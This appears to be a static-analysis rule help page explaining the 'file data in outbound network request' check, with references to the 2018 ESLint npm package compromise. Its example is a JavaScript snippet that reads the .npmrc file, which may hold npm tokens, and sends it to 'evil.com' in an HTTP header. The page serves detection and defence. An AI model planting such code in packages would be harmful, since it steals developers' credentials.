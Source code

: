 # File data in outbound network request
Sending local file system data to a remote URL without further validation risks uncontrolled information exposure, and may be an indication of malicious backdoor code that has been implanted into an otherwise trusted code base.


## Recommendation
Examine the highlighted code closely to ensure that it is behaving as intended.


## Example
The following example is adapted from backdoor code that was identified in two popular npm packages. It reads the contents of the `.npmrc` file (which may contain secret npm tokens) and sends it to a remote server by embedding it into an HTTP request header.


```javascript
var fs = require("fs"),
    https = require("https");

var content = fs.readFileSync(".npmrc", "utf8");
https.get({
  hostname: "evil.com",
  path: "/upload",
  method: "GET",
  headers: { Referer: content }
}, () => { });

```

## References
* ESLint Blog: [Postmortem for Malicious Packages Published on July 12th, 2018](https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes).
* OWASP: [Sensitive Data Exposure](https://www.owasp.org/index.php/Top_10-2017_A3-Sensitive_Data_Exposure).
* OWASP: [Trojan Horse](https://www.owasp.org/index.php/Trojan_Horse).
* Common Weakness Enumeration: [CWE-200](https://cwe.mitre.org/data/definitions/200.html).

